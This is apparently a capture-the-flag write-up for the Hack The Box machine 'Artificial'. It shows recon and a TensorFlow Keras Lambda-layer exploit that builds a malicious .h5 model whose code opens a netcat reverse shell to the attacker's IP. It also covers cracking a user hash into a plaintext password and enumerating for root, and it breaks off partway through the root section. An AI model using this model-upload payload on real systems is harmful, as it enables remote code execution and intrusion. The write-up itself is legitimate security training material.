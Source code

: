 starting with initial recon 

```
nmap -sV -sC -oN nmap.txt  -p- 10.10.11.74 --min-rate=5000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 16:21 CET
Nmap scan report for 10.10.11.74 (10.10.11.74)
Host is up (0.68s latency).
Not shown: 48960 filtered tcp ports (no-response), 16573 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.67 seconds
```

adding the domain to our `/etc/hosts `

`sudo echo "10.10.11.74     artificial.htb" >> /etc/hosts`

simple ass looking ui  

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162502.png">

registering a new account and logging in with it 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162718.png">

this will lead us to the page where it present us with this .. 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162855.png">

checking the `requirement.txt` and `Dockerfile` 

`Dockerfile`
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

`requirements.txt`
```
tensorflow-cpu==2.13.1
```

this version of tensorflow library might have some vurnabilitys .  

after searching i found this 

[https://github.com/advisories/GHSA-x4wf-678h-2pmq](https://github.com/advisories/GHSA-x4wf-678h-2pmq)

looking for POC to recreate the exploit 

[https://mastersplinter.work/research/tensorflow-rce/](https://mastersplinter.work/research/tensorflow-rce/)

the idea is to generate a `.h5` model that contains our malicious command so we can import it and get a reverse shell 

to recreate the exploit we need first to install tensorflow on our machine  (which is annoying task) 


```
import tensorflow as tf

def exploit(x):
    import os
    os.system("busybox nc 10.10.15.53 4444 -e /bin/sh")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

I always use busybox since its found on every linux distro . 

### generating our model 
```cmd
python3 exploit.py 
```

opening a listener on our machine 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017165134.png">

and finally importing our model will give us a shell 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017184622.png">

it didnt work ... 

<hr>

after digging a lil bit i found out the reason , it appeared that i need to boot up an entier container with that specific `Dockerfile` so just i can generate that `.h5` file 
```
docker build -t tensorflow-app .
```

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251018164048.png">

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251018164228.png">

an copying it to our machine , its a tedious task for me cuz i m doing everything from WSL , but first copying it from the container , and here the command if someone need it 
```
sudo docker cp 1b420c3ceba3:/code/exploit.h5 ./exploit.h5
```

uploading the model and done :)) , we got a shell 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251018164755.png">
## PrivEscalation 

we start the usual with making a fully interactive shell 
```
script /dev/null -c bash
export TERM=xterm
```

we found another user called `gael` , and from i found something in the `/opt` folder 

```
total 36
drwxr-xr-x   8 root root 4096 Oct 18 10:39 .
drwxr-xr-x  18 root root 4096 Mar  3  2025 ..
drwxr-xr-x   5 root root 4096 Oct 18 16:00 backrest
-r--------   1 root root  155 Oct 18 10:39 config
drwx------ 258 root root 4096 Oct 18 10:39 data
drwx------   2 root root 4096 Oct 18 10:39 index
drwx------   2 root root 4096 Oct 18 10:39 keys
drwx------   2 root root 4096 Oct 18 10:52 locks
drwx------   2 root root 4096 Oct 18 10:39 snapshots
```
it appears like structure for something , but nothing interresting , altho , i found a local port open 

```
app@artificial:/opt$ ss -tulpn
ss -tulpn
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process
udp     UNCONN   0        0          127.0.0.53%lo:53            0.0.0.0:*
tcp     LISTEN   0        4096           127.0.0.1:9898          0.0.0.0:*
tcp     LISTEN   0        511              0.0.0.0:80            0.0.0.0:*
tcp     LISTEN   0        4096       127.0.0.53%lo:53            0.0.0.0:*
tcp     LISTEN   0        128              0.0.0.0:22            0.0.0.0:*
tcp     LISTEN   0        2048           127.0.0.1:5000          0.0.0.0:*       users:(("gunicorn",pid=38371,fd=7),("gunicorn",pid=22263,fd=7),("gunicorn",pid=21324,fd=7),("gunicorn",pid=968,fd=7),("gunicorn",pid=805,fd=7))
tcp     LISTEN   0        511                 [::]:80               [::]:*
tcp     LISTEN   0        128                 [::]:22               [::]:*
```

```
app        22263  0.4 10.6 876352 425172 ?       Sl   15:18   0:13 /usr/bin/python3 /usr/bin/gunicorn -w 4 --error-logfile /dev/null --access-logfile /dev/null app:app -b 127.0.0.1:5000
app        56293  0.0  0.0   6300   716 pts/3    S+   16:08   0:00 grep --color=auto 22263
```
nothing interesting 
and i alsofound this `users.db` file 

theres two tables 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251018171309.png">

and look at that.. we found hash for `gael`

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251018171439.png">

cracking that hash in crackstation getting us this 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251018171610.png">

trying that `mattp005numbertwo` password on `gael` 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251018172046.png">
## Root 

i missed a port i found out earlier , it was on `8989` , after forwarding it ,it got me this 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251018172751.png">

yeah whever , gael creds didnt work and the creds are stored on the config file which is protected by `root` , altho , theres a folder `backrest` that we can read 
```
total 51116
drwxr-xr-x 5 root root         4096 Oct 18 16:30 .
drwxr-xr-x 8 root root         4096 Oct 18 10:39 ..
-rwxr-xr-x 1 app  ssl-cert 25690264 Feb 16  2025 backrest
drwxr-xr-x 3 root root         4096 Mar  3  2025 .config
-rwxr-xr-x 1 app  ssl-cert     3025 Mar  3  2025 install.sh
-rw------- 1 root root           64 Mar  3  2025 jwt-secret
-rw-r--r-- 1 root root        77824 Oct 18 16:30 oplog.sqlite
-rw------- 1 root root            0 Mar  3  2025 oplog.sqlite.lock
-rw-r--r-- 1 root root        32768 Oct 18 16:30 oplog.sqlite-shm
-rw-r--r-- 1 root root            0 Oct 18 16:30 oplog.sqlite-wal
drwxr-xr-x 2 root root         4096 Mar  3  2025 processlogs
-rwxr-xr-x 1 root root     26501272 Mar  3  2025 restic
drwxr-xr-x 3 root root         4096 Oct 18 16:30 tasklogs
```

